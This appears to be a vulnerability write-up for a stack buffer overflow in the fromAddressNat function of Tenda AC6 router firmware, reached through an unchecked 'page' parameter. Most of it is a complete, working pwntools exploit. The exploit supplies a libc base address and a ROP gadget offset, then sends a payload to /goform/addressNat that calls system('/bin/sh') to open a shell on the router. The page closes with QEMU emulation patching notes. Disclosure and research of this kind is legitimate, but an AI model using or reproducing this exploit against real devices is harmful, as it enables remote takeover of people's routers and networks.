







# fromAddressNat vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the fromAddressNat function. The sprintf(v6, "advance/addressNatList.asp?page=%s", v7); function copies the contents of the parameter **"page"** to v6 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.



## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000





Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"binsh: {hex(binsh_addr)}")
print(f"pop r0: {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'A' * 0xf0 + b'abcdefgh' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/addressNat", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  





The instructions patched to **'nop'** can be listed as follows:  



Then after running the exp twice we can get shell successfully.

